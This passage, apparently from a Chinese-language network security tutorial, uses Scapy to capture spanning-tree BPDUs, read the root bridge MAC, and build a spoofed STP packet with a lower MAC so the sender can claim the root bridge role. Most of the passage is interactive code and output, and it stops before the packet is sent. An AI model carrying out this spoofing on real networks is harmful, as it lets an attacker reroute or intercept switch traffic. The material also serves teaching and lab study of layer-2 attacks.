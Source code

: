 根据例子,可以得出这样的函数`lambda x: x.haslayer(STP)`

利用这个来抓取`STP`的数据包

```pyhton
>>> stp = STP()
>>> tcp = TCP()
>>> stp.haslayer(STP)
True
>>> tcp.haslayer(STP)
0
>>> sniff(stop_filter=lambda x: x.haslayer(STP),count=1)
<Sniffed: TCP:0 UDP:0 ICMP:0 Other:1>
```

提取根桥`mac`

```python
>>> packet = sniff(stop_filter=lambda x: x.haslayer(STP),count=1)
>>> packet
<Sniffed: TCP:0 UDP:0 ICMP:0 Other:1>
>>> packet[-1]
<Dot3  dst=01:80:c2:00:00:00 src=00:03:0f:91:06:73 len=38 |<LLC  dsap=0x42 ssap=0x42 ctrl=3 |<STP  proto=0 version=0 bpdutype=0 bpduflags=0 rootid=0 rootmac=00:03:0f:91:06:73 pathcost=0 bridgeid=0 bridgemac=00:03:0f:91:06:73 portid=32769 age=0.0 maxage=20.0 hellotime=2.0 fwddelay=15.0 |<Padding  load='\x00\x00\x00\x00\x00\x00\x00\x00' |>>>>
>>> stp = packet[-1].getlayer('STP')
>>> stp.fields['rootmac']
'00:03:0f:91:06:73'                                          
```

**2.发送stp欺骗数据包**

查看数据包字段

```python
>>> ls(STP)
proto      : ShortField                          = (0)
version    : ByteField                           = (0)
bpdutype   : ByteField                           = (0)
bpduflags  : ByteField                           = (0)
rootid     : ShortField                          = (0)
rootmac    : MACField                            = ('00:00:00:00:00:00')
pathcost   : IntField                            = (0)
bridgeid   : ShortField                          = (0)
bridgemac  : MACField                            = ('00:00:00:00:00:00')
portid     : ShortField                          = (0)
age        : BCDFloatField                       = (1)
maxage     : BCDFloatField                       = (20)
hellotime  : BCDFloatField                       = (2)
fwddelay   : BCDFloatField                       = (15)
```
构造数据包


```python
>>> mac_new = '00:03:0f:90:06:73' #比交换机mac 00:03:0f:91:06:73小 
>>> packet = Dot3(src=mac_new,dst='01:80:C2:00:00:00')/LLC()/STP(rootid=0,rootmac=mac_new,bridgeid=0,bridgemac=mac_new)
>>> packet.show()
###[ 802.3 ]###
  dst= 01:80:C2:00:00:00
  src= 00:03:0f:90:06:73
  len= None
###[ LLC ]###
     dsap= 0x42
     ssap= 0x42
     ctrl= 3
###[ Spanning Tree Protocol ]###
```